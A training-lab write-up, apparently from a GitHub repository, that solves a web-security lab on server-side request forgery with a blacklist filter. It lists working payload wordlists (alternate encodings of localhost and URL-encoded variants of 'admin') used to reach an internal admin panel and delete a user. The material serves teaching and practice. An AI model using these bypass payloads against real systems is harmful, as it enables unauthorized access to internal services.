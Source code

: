 # Lab: SSRF with blacklist-based input filter

 This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass. 

# Step 1 Walk the application

I want to see if I can find a potential SSRF vulnerability, and it seems like the /product/stock StockApi parameter is a good potential target:

![image](https://user-images.githubusercontent.com/83407557/210094418-d1849908-43ed-4b2f-9768-948df4ea58b3.png)


# Step 2 Create an intruder attack

I send the request to intruder and set the URL as the payload position:

![image](https://user-images.githubusercontent.com/83407557/210094523-c6f21254-7a58-4dcc-a632-8489078faeaa.png)

Since I want to target several variations of http://localhost/admin I create a wordlist to try and just hit localhost:

```bash
└─$ cat target_urls                
http://localhost/
http://127.0.0.1/
http://127.1./
http://127.1/
http://2130706433/
http://017700000001/
http://LoCaLhOsT/
http://LOCALHOST/
```

I add these as the payloads:

![image](https://user-images.githubusercontent.com/83407557/210095863-6136ac4b-fb85-47c1-97e5-698b2b2b5fe1.png)

I find that 3 of these make it through and give 200 responses

![image](https://user-images.githubusercontent.com/83407557/210095971-372a3655-bdd8-4265-9e65-2755ec07d7d8.png)

# Step 3 Try and get to /admin directory from localhost

I make a new wordlist with variations of admin, with capitalization, single/double URL-encoding, and partial URL encoding

```bash
http://127.1/admin
http://LoCaLhOsT/admin
http://LOCALHOST/admin
http://127.1/AdMiN
http://LoCaLhOsT/AdMiN
http://LOCALHOST/AdMiN
http://127.1/ADMIN
http://LoCaLhOsT/ADMIN
http://LOCALHOST/ADMIN
http://127.1/%61%64%6d%69%6e
http://LoCaLhOsT/%61%64%6d%69%6e
http://LOCALHOST/%61%64%6d%69%6e
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
http://LoCaLhOsT/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
http://LOCALHOST/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
http://127.1/%61dmin
http://LoCaLhOsT/%61dmin
http://LOCALHOST/%61dmin
http://127.1/%25%36%31dmin
http://LoCaLhOsT/%25%36%31dmin
http://LOCALHOST/%25%36%31dmin
```

With these new payloads, I find that many bypass the filter and get me to the admin panel:

![image](https://user-images.githubusercontent.com/83407557/210097793-87d19872-cf1f-49a1-bc75-3cff94e4d1c6.png)


# Step 4 Use admin panel

I open one of the 200 responses in my browser 

![image](https://user-images.githubusercontent.com/83407557/210097886-3d56286a-333c-4ecf-b28b-140f8b71ef1d.png)

However trying to delete directly from this page fails

![image](https://user-images.githubusercontent.com/83407557/210097929-0cbd68b8-005a-468c-a279-04f90b0dd518.png)

![image](https://user-images.githubusercontent.com/83407557/210097965-211def4e-37dd-4b59-b11f-9f955cc90d70.png)


So I once again need to use SSRF to delete the user from the Stock page using my bypass:

![image](https://user-images.githubusercontent.com/83407557/210098135-d3fa1649-9ecb-4f25-ae35-e3fe427774da.png)

This deletes the user and solves the lab

![image](https://user-images.githubusercontent.com/83407557/210098174-641e6b78-5a8a-488c-8185-50b77d08931c.png)

